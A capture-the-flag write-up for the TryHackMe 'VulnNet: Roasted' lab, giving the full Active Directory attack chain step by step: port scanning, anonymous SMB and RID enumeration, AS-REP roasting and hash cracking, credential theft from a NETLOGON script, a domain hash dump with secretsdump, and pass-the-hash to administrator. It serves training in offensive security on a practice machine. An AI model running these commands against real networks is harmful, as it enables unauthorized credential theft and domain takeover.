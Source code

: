 # VulnNet: Roasted

Link to room: https://tryhackme.com/room/vulnnetroasted

### Windows Active Directory

Let's start with an nmap scan:
```
nmap -p- -v -sC -sV -Pn -oN nmap-all-ports vulnet.thm
```
```python
# Nmap 7.91 scan initiated Sun May 16 16:34:12 2021 as: nmap -p- -v -sC -sV -Pn -oN nmap-all-ports vulnet.thm
Nmap scan report for vulnet.thm (10.10.123.68)
Host is up (0.23s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-16 21:04:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-05-16T21:05:40
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 16 17:06:24 2021 -- 1 IP address (1 host up) scanned in 1932.04 seconds
```

Based on some of the opened ports like 53(DNS) and 88(kerberos), we can predict this is a windows active directory machine

## SMB Enum

we can enumerate shares anonymously providing a null password using smbmap
```python
╭── /opt/share/tryhackme/vulnet  master ✘✘✘ ✭  
╰────▶ smbmap -H vulnet.thm -u guest -p ''
[+] IP: vulnet.thm:445  Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

There are read-only access to three shares (IPC$, VulnNet-Business-Anonymous, and VulnNet-Enterprise-Anonymous).
The IPC$ share hints us of the possibility to do anonymous user enumeration. We will come to that later. Let's access the last two shares and see what contents they have

```python
╭── /opt/share/tryhackme/vulnet/smb_loot  master ✘✘✘
╰────▶ smbclient //vulnet.thm/VulnNet-Business-Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Business-Manager.txt                A      758  Thu Mar 11 20:24:34 2021
  Business-Sections.txt               A      654  Thu Mar 11 20:24:34 2021
  Business-Tracking.txt               A      471  Thu Mar 11 20:24:34 2021


╭── /opt/share/tryhackme/vulnet/smb_loot  master ✘✘✘ ✭  
╰────▶ smbclient //vulnet.thm/VulnNet-Enterprise-Anonymous                           
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Enterprise-Operations.txt           A      467  Thu Mar 11 20:24:34 2021
  Enterprise-Safety.txt               A      503  Thu Mar 11 20:24:34 2021
  Enterprise-Sync.txt                 A      496  Thu Mar 11 20:24:34 2021
```
##
Download all the contents onto our local machine
```
smb: \> mget *
```
##
We get potential usernames and other info from the downloaded files from smb. so let's build our username list. Spoiler alert!!, the usernames in the files were generic and didn't match with those created on the machine

Time to find a way to enumerate usernames on the box. i will be using rid-brute from crackmapexec
```python
crackmapexec smb vulnet.thm -u robot -p '' --rid-brute | grep  SidTypeUser
```
Since anonymous login allowed, you can replace username robot with whatever name you like. I used robot because i am ROBOT -:)

![image](https://user-images.githubusercontent.com/68066436/118685539-3038aa80-b7d1-11eb-91e9-572fcd48794a.png)

##
Extract the usernames with RID greater than 1000 into a username file. I named my file users.txt with below usernames

```
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```
##
Try kerberoasting with the username file returns a hash for t-skid (Implies user t-skid does not require kerberos pre-authentication)

```python
python3 GetNPUsers.py -dc-ip 10.10.176.144 -usersfile users.txt vulnnet-rst.local/
```
![image](https://user-images.githubusercontent.com/68066436/118688670-41cf8180-b7d4-11eb-9917-96222176f67f.png)

Put whole hash (from $krb to end of hash) in a file and crack with john-the-ripper
```python
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt kerberoasting-hash
```
![image](https://user-images.githubusercontent.com/68066436/118689287-d1753000-b7d4-11eb-8b7f-869cfe676122.png)

Creds for t-skid
```
user: t-skid
pass: <redacted>
```

Try to access smb again with the new creds to see if we can elevate our access to some shares
```python
smbmap -H vulnet.thm -u t-skid -p '<redacted>'
```
![image](https://user-images.githubusercontent.com/68066436/118689875-77c13580-b7d5-11eb-88a7-c99bc26d771f.png)
Notice t-skid now has read access to NETLOGON and SYSVOL shares which we did not have with the anonymous logins

Let's access NETLOGON share with smbclient and see what we've got in there using t-skid's creds
```python
smbclient //vulnet.thm/NETLOGON -U t-skid
```
![image](https://user-images.githubusercontent.com/68066436/118690902-82c89580-b7d6-11eb-95f2-9fb1715a6c6b.png)

##
We get a new username and password after downloading and reading the content of ResetPassword.vbs
![image](https://user-images.githubusercontent.com/68066436/118691117-bf948c80-b7d6-11eb-9360-202d1f66c064.png)

Creds for a-whitehat
```
user: a-whitehat
pass: <redacted>
```

Pass a-whitehat's creds into evil-winrm to get the initial foothold into the machine
```python
evil-winrm -i vulnet.thm -u a-whitehat -p <redacted>
```
![image](https://user-images.githubusercontent.com/68066436/118693125-c45a4000-b7d8-11eb-9b0b-cf9abceba4aa.png)


## Privilege Escalation

Checked groups and realised user a-whitehat belong to the domain admins group, this will enable us dump hashes from SAM database using secretsdump.py from impacket

![image](https://user-images.githubusercontent.com/68066436/118693532-21ee8c80-b7d9-11eb-9b2d-195be8421d32.png)

Let's dump the hashes with secretsdump
```python
python3 secretsdump.py -just-dc a-whitehat:<redacted password>@vulnnet-rst.local
```
![image](https://user-images.githubusercontent.com/68066436/118694206-d2f52700-b7d9-11eb-9b00-698568e0e87f.png)

What do we do now that we have the administrator's hashes? Erhmmm, let's pass-the-hash using evil-winrm
```python
evil-winrm -i vulnet.thm -u administrator -H <redacted NTLM hash of administrator>
```
![image](https://user-images.githubusercontent.com/68066436/118695296-084e4480-b7db-11eb-8194-300f527f336b.png)

We have successfully escalated our privilege to administrator!!!!!


## Flags
Time to grab the flags

### User Flag:
Navigate to C:\users\enterprise-core-vn\Desktop\user.txt
![image](https://user-images.githubusercontent.com/68066436/118696979-d63de200-b7dc-11eb-8d86-a6da70a933aa.png)

### System Flag:
Navigate to C:\Users\Administrator\Desktop\system.txt
![image](https://user-images.githubusercontent.com/68066436/118696998-db029600-b7dc-11eb-8f7d-e0673173e282.png)



##
This is the end of my write-up, hope you enjoyed reading....



